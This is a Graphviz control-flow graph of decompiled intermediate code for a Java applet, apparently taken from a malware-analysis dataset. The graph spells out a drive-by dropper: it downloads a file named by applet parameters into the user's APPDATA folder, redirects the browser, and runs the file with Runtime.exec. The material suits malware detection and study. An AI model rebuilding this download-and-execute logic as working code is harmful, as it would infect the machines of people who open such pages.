 digraph "" {
    "r0 := @this: Java"
    "push \"APPDATA\""
    "r0 := @this: Java"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "pop"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"pop";
    "pop"->"push \"APPDATA\"";
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r3"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "new java.net.URL"
    "store.r r3"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r31"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r31";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "store.r r31"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r8"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r8";
    "new java.io.FileOutputStream"
    "store.r r8"->"new java.io.FileOutputStream";
    "store.r $r16"
    "new java.io.FileOutputStream"->"store.r $r16";
    "load.r $r16"
    "store.r $r16"->"load.r $r16";
    "new java.lang.StringBuilder"
    "load.r $r16"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r3"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r11"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r12"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r12";
    "load.r r8"
    "store.r r12"->"load.r r8";
    "load.r r11"
    "load.r r8"->"load.r r11";
    "push 0"
    "load.r r11"->"push 0";
    "push 0"->"load.r r11";
    "arraylength"
    "load.r r11"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r8"
    "push -1"->"ifcmpeq.i load.r r8";
    "ifcmpeq.i load.r r8"->"load.r $r16";
    "load.r $r16"->"load.r r11";
    "load.r r11"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r8"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r8";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r8"->"load.r r8";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r8"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r31"
    "dup1.r"->"load.r r31";
    "checkcast"
    "load.r r31"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r $r16";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r16"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"checkcast";
    "checkcast"->"store.r r8";
    "store.r r8"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r8";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r8"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "load.r r12"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"load.r r12";
    "load.r r12"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "goto return"->"return";
}

